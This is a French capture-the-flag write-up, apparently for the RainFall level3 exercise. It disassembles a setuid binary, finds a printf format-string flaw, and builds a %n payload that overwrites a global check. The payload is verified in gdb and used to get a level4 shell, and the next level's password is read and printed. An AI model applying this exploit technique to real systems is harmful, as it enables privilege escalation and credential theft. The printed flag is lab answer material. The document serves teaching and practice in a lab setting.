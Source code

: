 On a un binaire avec le flag setuid
```sh
level3@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level4 users 5366 Mar  6  2016 level3
```
On désassemble
```sh
level3@RainFall:~$ objdump -d -M intel ./level3
080484a4 <v>:
 80484a4:       55                      push   ebp
 80484a5:       89 e5                   mov    ebp,esp
 80484a7:       81 ec 18 02 00 00       sub    esp,0x218
 80484ad:       a1 60 98 04 08          mov    eax,ds:0x8049860
 80484b2:       89 44 24 08             mov    DWORD PTR [esp+0x8],eax
 80484b6:       c7 44 24 04 00 02 00    mov    DWORD PTR [esp+0x4],0x200
 80484bd:       00
 80484be:       8d 85 f8 fd ff ff       lea    eax,[ebp-0x208]
 80484c4:       89 04 24                mov    DWORD PTR [esp],eax
 80484c7:       e8 d4 fe ff ff          call   80483a0 <fgets@plt>
 80484cc:       8d 85 f8 fd ff ff       lea    eax,[ebp-0x208]
 80484d2:       89 04 24                mov    DWORD PTR [esp],eax
 80484d5:       e8 b6 fe ff ff          call   8048390 <printf@plt>
 80484da:       a1 8c 98 04 08          mov    eax,ds:0x804988c
 80484df:       83 f8 40                cmp    eax,0x40
 80484e2:       75 34                   jne    8048518 <v+0x74>
 80484e4:       a1 80 98 04 08          mov    eax,ds:0x8049880
 80484e9:       89 c2                   mov    edx,eax
 80484eb:       b8 00 86 04 08          mov    eax,0x8048600
 80484f0:       89 54 24 0c             mov    DWORD PTR [esp+0xc],edx
 80484f4:       c7 44 24 08 0c 00 00    mov    DWORD PTR [esp+0x8],0xc
 80484fb:       00
 80484fc:       c7 44 24 04 01 00 00    mov    DWORD PTR [esp+0x4],0x1
 8048503:       00
 8048504:       89 04 24                mov    DWORD PTR [esp],eax
 8048507:       e8 a4 fe ff ff          call   80483b0 <fwrite@plt>
 804850c:       c7 04 24 0d 86 04 08    mov    DWORD PTR [esp],0x804860d
 8048513:       e8 a8 fe ff ff          call   80483c0 <system@plt>
 8048518:       c9                      leave
 8048519:       c3                      ret

0804851a <main>:
 804851a:       55                      push   ebp
 804851b:       89 e5                   mov    ebp,esp
 804851d:       83 e4 f0                and    esp,0xfffffff0
 8048520:       e8 7f ff ff ff          call   80484a4 <v>
 8048525:       c9                      leave
 8048526:       c3                      ret
 8048527:       90                      nop
 8048528:       90                      nop
 8048529:       90                      nop
 804852a:       90                      nop
 804852b:       90                      nop
 804852c:       90                      nop
 804852d:       90                      nop
 804852e:       90                      nop
 804852f:       90                      nop
```
On remarque l'appel à **fgets**, **printf**, **fwrite** et **system**. La fonction v est intéressante. Elle est appelé par main et utilise la fonction printf.On voit que avant printf, les registres habiruellement utilisé pour passer des arguments ne sont pas utilisés et restent donc a priori aux valeurs définies avant l'appel a fgets, donc printf est appelé de cette manière: printf(buffer);
>Cela déclenche généralement un warning à la compilation:
```C
test.c:7:19: warning: format not a string literal and no format arguments [-Wformat-security]
    7 |  int res = printf(buffer);
      |
```
On va a priori pouvoir faire un exploit de format.
Un contrôle protège l'appel a **system**, un cmp est fait entre une valeur à l'adresse **ds:0x804988c** et 0x40, soit 64. **ds** veut dire qu'elle est dans le data segment, c'est donc une variable static ou global modifiable.
Si on le passe, **fwrite** est appelé, on suppose que fwrite va écrire dans un buffer ou sur la sortie standard et que system va prendre cette sortie comme argument:
```asm
 80484da:       a1 8c 98 04 08          mov    eax,ds:0x804988c
 80484df:       83 f8 40                cmp    eax,0x40
 80484e2:       75 34                   jne    8048518 <v+0x74>
 80484e4:       a1 80 98 04 08          mov    eax,ds:0x8049880
 80484e9:       89 c2                   mov    edx,eax
 80484eb:       b8 00 86 04 08          mov    eax,0x8048600
 80484f0:       89 54 24 0c             mov    DWORD PTR [esp+0xc],edx
 80484f4:       c7 44 24 08 0c 00 00    mov    DWORD PTR [esp+0x8],0xc
 80484fb:       00
 80484fc:       c7 44 24 04 01 00 00    mov    DWORD PTR [esp+0x4],0x1
 8048503:       00
 8048504:       89 04 24                mov    DWORD PTR [esp],eax
 8048507:       e8 a4 fe ff ff          call   80483b0 <fwrite@plt>
 804850c:       c7 04 24 0d 86 04 08    mov    DWORD PTR [esp],0x804860d
 8048513:       e8 a8 fe ff ff          call   80483c0 <system@plt>
```
Il faut donc écrire 64 à cette adresse **0x804988c** pour passer le contrôle.
Vérifions d'abord la vulnérabilité de printf
```sh
level3@RainFall:~$ ./level3
aaaa %x %x %x %x %x %x %x
aaaa 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825 78252078
```
plusieurs choses:
- printf imprime d'abord la chaine passé en paramètre
- on a ensuite 0x200 soit 512, on remarque que c'est le premier argument de fgets dans **ebx**
- puis b7fd1ac0 b7ff37d0 qui sont certainement les deuxième et troisième arguments dans **ecx** et **edx**
- enfin 0x61616161 qui est notre chaine "aaaa"
- Le format qui permat d'imprimer le buffer passé en argument est en 4ème position, on peut utiliser %4$ + format

>Le format %n permet d'écrire à l'adresse n, qui est l'adresse d'un int, le nombre de charactère déjà imprimés par printf

essayons d'écrire l'adresse en **little endian**:
```sh
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08%4$x"' > /tmp/test_payload
level3@RainFall:~$ cat /tmp/test_payload | ./level3
�804988c
```
Il y a 1 caractère imprimé avant le format %4$x
Nous allons donc faire le payload suivant:
l'adresse où le cmp s'effectue + une chaine random pour compléter + le format %n en quatrième argument de printf:
**0x804988c** + a * 60 + %4$n
soit:
1 octet imprimé + 60 octets imprimés + 3 octets imprimés:
```sh
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa%4$n"' > /tmp/payload
```
Testons avec **gdb**:
```sh
level3@RainFall:~$ gdb -q ./level3
Reading symbols from /home/user/level3/level3...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x804851d
(gdb) b v
Breakpoint 2 at 0x80484ad
(gdb) b *0x080484df
Breakpoint 3 at 0x80484df
(gdb) r < /tmp/payload
Starting program: /home/user/level3/level3 < /tmp/payload

Breakpoint 1, 0x0804851d in main ()
(gdb) s
Single stepping until exit from function main,
which has no line number information.

Breakpoint 2, 0x080484ad in v ()
(gdb)
Single stepping until exit from function v,
which has no line number information.
�aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Breakpoint 3, 0x080484df in v ()
(gdb) i r
eax            0x40     64
ecx            0x0      0
edx            0x0      0
ebx            0xb7fd0ff4       -1208152076
esp            0xbffff510       0xbffff510
ebp            0xbffff728       0xbffff728
esi            0x0      0
edi            0x0      0
eip            0x80484df        0x80484df <v+59>
eflags         0x210282 [ SF IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb)
(gdb) s
Single stepping until exit from function v,
which has no line number information.
Wait what?!
0x08048525 in main ()
(gdb) quit
```
on a bien 64 dans **eax** donc le compte est bon
Exploit:
```sh
level3@RainFall:~$ cat /tmp/payload - | ./level3
�aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Wait what?!
id
uid=2022(level3) gid=2022(level3) euid=2025(level4) egid=100(users) groups=2025(level4),100(users),2022(level3)
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
Flag!